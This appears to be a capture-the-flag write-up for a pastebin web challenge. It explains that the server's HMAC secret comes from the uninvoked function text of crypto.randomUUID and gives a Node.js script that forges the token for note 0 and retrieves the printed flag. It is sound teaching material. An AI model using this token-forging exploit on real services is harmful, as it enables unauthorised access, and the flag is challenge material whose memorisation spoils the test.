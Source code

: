 #### Challenge:

Knock knock? Who's there? Another pastebin!! [knock-knock.mc.ax](https://knock-knock.mc.ax/)

[index.js](./index.js ":ignore") [Dockerfile](./Dockerfile ":ignore")

---

#### Solution:

- inspecting the code reveals that `token` is just `sha256` generated from `id` with seed `secret`, so if we can get the `secret` we can craft any token, also the flag always have `id=0` as it is the first node to be added
- inspecting the `secret` initialization we can see that instead of invoking the function `crypto.randomUUID` its content is used as `secret` thus iv we use the same version of `node` we can craft any token we need

```js
const crypto = require('crypto');
const https = require('https')

const token = crypto.createHmac('sha256', `secret-${crypto.randomUUID}`).update('0').digest('hex')

const req = https.request({
    hostname: 'knock-knock.mc.ax',
    port: 443,
    path: `/note?id=0&token=${token}`,
    method: 'GET',
}, res => res.on('data', d => {
    process.stdout.write(d)
}))

req.end()
```

---

<details><summary>FLAG:</summary>

```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```

</details>
<br/>
